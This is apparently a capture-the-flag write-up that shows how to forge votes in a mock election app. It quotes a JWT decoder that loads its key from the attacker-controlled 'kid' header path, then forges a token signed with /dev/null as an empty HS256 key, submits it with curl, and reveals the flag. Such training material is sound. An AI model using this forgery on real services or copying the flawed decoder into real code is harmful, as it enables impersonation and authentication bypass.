 ```yaml
---
layout: writeup
title: I can be anyone!
tags: WebX
---
```


## Description

Among the various issues that occured during the voting process, generating a vote code wasn't possible as the system would say "Citizen <> has already voted". It seems like someone is taking everyone elses votes! Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT100 who hasn't voted yet?

<!--more-->


The code for the backend of all week 4 challenges was the same, so we also had that.


## Solution


The challenge was about forging a vote for the system that it accepted. Here is the code for vote submissions.

```python
##### VOTE SUBMISSION
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401

        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401

        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400

        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")

        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401

        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)

        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }

            if citizen_id == "CIT100":
                response_data["i_can_be_anyone_flag"] = current_app.config["I_CAN_BE_ANYONE_FLAG"]
            elif citizen_id == "CIT1337":
                response_data["the_voting_logs_aint_making_sense_flag"] = current_app.config["THE_VOTING_LOGS_AINT_MAKING_SENSE_FLAG"]

            return jsonify(response_data)
        else:
            return jsonify({"error": "Vote already submitted or database error"}), 409

    except Exception as e:
        return jsonify({"error": f"Failed to submit vote: {str(e)}"}), 500
```

This shows how in order to submit a vote, you need a valid JWT, and you need a `party` value in your request body. Then if the `citizen_id` of your JWT is `CIT100` you get the flag.

Lets look at the JWT code to see if we can forge a JWT token.

```python
import jwt

#...

def decode_jwt_token(token):
    try:
        if token.startswith("Bearer "):
            token = token[7:]

        unverified_header = jwt.get_unverified_header(token)
        kid = unverified_header.get("kid")
        alg = unverified_header.get("alg")

        if kid:
            try:
                public_key_path = kid
                with open(public_key_path, "r") as key_file:
                    public_key = key_file.read()
            except FileNotFoundError:
                return None
            except Exception:
                return None
        else:
            public_key_path = current_app.config["JWT_PUBLIC_KEY_PATH"]
            with open(public_key_path, "r") as key_file:
                public_key = key_file.read()

        payload = jwt.decode(
            token,
            public_key,
            algorithms=[alg]
        )

        return payload

    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
    except Exception:
        return None
```


This looks pretty easy at first, my first thought was with how the algorithm is just directly put in, to try the `none` algorithm. Sadly PyJWT (the import they are using for JWT) does not support the `none` algorithm, so that can't be done. 

Time for the other attack vector, some `kid` injection. Normally in a JWT if it has the `kid` header, and in this case, the `kid` header is used to dictate which key should be used to decrypt the token and thereby authenticate it. Therefore, if you set the `kid` header to point to a value that the user knows the value of, and then sign a JWT token with that key using a symetric algorithm such as `HS256` then you can forge any token you want. Luckily even if we don't know much files on this system, linux has a few preset files that you cant change the values within that we can just use for the symetric key, as we know its value. In this case I am using `/dev/null` this file is completely empty, and anything put in here is removed, so the symettric key in this case would be an empty string.

As such, lets make a JWT token in just the python terminal

```python
>>> import jwt
>>> payload = {"citizenId": "CIT100", "name": "John Doe", "state": "Izzi", "vote_identifier": "ab23b5"}
>>> headers = {"kid": "/dev/null"}
>>> jwt.encode(payload, "", algorithm="HS256", headers=headers)
'eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMDAiLCJuYW1lIjoiSm9obiBEb2UiLCJzdGF0ZSI6Ikl6emkiLCJ2b3RlX2lkZW50aWZpZXIiOiJhYjIzYjUifQ.9G8qG9trT6Dve-73kEdyMvB3of0ZbHooPhoV0d0xyJA'
```

There is our token, time to submit our vote:

```bash
$ curl "http://mobile-app.commission.freedonia.vote/api/voting/submit-vote" -X POST -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMDAiLCJuYW1lIjoiSm9obiBEb2UiLCJzdGF0ZSI6Ikl6emkiLCJ2b3RlX2lkZW50aWZpZXIiOiJhYjIzYjUifQ.9G8qG9trT6Dve-73kEdyMvB3of0ZbHooPhoV0d0xyJA" -H "Content-Type: application/json" -d '{"party":2}'
{"citizen_id":"CIT100","i_can_be_anyone_flag":"cysea{impersonation_is_a_crime_b9a43d54e0}","message":"Vote submitted successfully","party":2,"state":"Izzi","success":true}
```

And look at that, we get the flag as the reply `cysea{impersonation_is_a_crime_b9a43d54e0}`
